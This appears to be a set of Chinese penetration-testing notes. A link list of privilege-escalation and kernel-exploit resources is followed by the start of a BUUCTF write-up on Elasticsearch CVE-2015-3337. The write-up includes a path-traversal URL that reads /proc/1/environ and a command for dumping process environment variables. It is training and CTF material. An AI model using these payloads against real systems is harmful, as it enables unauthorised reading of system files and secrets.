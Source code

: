 linux下软件漏洞列表：[https://github.com/mudongliang/LinuxFlaw](https://github.com/mudongliang/LinuxFlaw)
windows-kernel-exploits：[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
linux-kernel-exploits：[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)
Windows提权合集项目：[https://github.com/Ascotbe/Kernelhub](https://github.com/Ascotbe/Kernelhub)

相关文章：
[红队视角下Linux信息收集](https://mp.weixin.qq.com/s/1ebyNloI226X6QqSlpcLag)
[Spawning a TTY Shell-逃逸linux各种shell来执行命令](https://www.lshack.cn/653/)
[https://github.com/offensive-security/exploitdb-bin-sploits](https://github.com/offensive-security/exploitdb-bin-sploits)
[GTFOBins](https://gtfobins.github.io/)
[Linux提权小结](http://zone.secevery.com/article/1104)
[linux提权方法(不断总结更新)](https://www.cnblogs.com/zaqzzz/p/12075132.html)
[Linux下用SUID提权](https://blog.csdn.net/qq_36119192/article/details/84872644)
[Linux本地提权漏洞复现与检测思路](https://mp.weixin.qq.com/s/lj3NjQlOeLmoXty5bsA_SA)
[提权学习之旅—基础篇](https://xz.aliyun.com/t/8054)
[提权学习之旅——Linux操作系统提权](https://xz.aliyun.com/t/8139)
[提权学习之旅——Windows操作系统提权](https://xz.aliyun.com/t/8091)
[内网文章小结：Security-Toolkit](https://github.com/demonsec666/Security-Toolkit)
[对Linux 提权的简单总结](https://xz.aliyun.com/t/7924)
[【安全科普】Linux提权——利用可执行文件SUID ](https://www.anquanke.com/post/id/86979)
[使用sudo进行Linux权限升级技巧](https://www.cnblogs.com/backlion/p/10504003.html)
[使用PATH变量进行Linux权限升级技巧](https://www.cnblogs.com/backlion/p/10503996.html)
[MYSQL渗透测试](https://www.cnblogs.com/jerrylocker/p/10926156.html)
[Mysql数据库渗透及漏洞利用总结](https://xz.aliyun.com/t/1491)
[udf提权原理详解](https://www.cnblogs.com/litlife/p/9030673.html)
[干货|一文吃透Linux提权](https://mp.weixin.qq.com/s/6ng7K1G2_EekdfrTSgcs6w)
[提权总结以及各种利用姿势](https://mp.weixin.qq.com/s/NMS-UI2c-8rnNaK5RWHyBA)
[linux常见提权方式总结](http://next.uuzdaisuki.com/2020/02/12/linux%E5%B8%B8%E8%A7%81%E6%8F%90%E6%9D%83%E6%96%B9%E5%BC%8F%E6%80%BB%E7%BB%93/)
## BUUCTF之Real笔记

flag均在环境变量中，环境变量可用`env`获取
### [ElasticSearch]
#### [ElasticSearch]CVE-2015-3337
```
jre版本：openjdk：8-jre
elasticsearch版本：v1.4.4
影响版本：1.4.5以下/1.5.2以下
```
>在安装了具有"site"功能的插件以后，插件目录使用../即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

测试环境默认安装了一个插件：`elasticsearch-head`
head插件提供了elasticsearch的前端页面，访问`http://your-ip:9200/_plugin/head/`即可看到
![](https://img-blog.csdnimg.cn/2021030911344653.png)
其运行时的环境变量可以使用下面的命令来查看：
```bash
cat /proc/$PID/environ
```
其中，将PID设置成相关进程的进程ID（PID总是一个整数）
访问`http://your-ip:9200/_plugin/head/../../../../../../proc/1/environ`，读取任意文件**（不要在浏览器访问）**
![](https://img-blog.csdnimg.cn/20210309113610964.png)
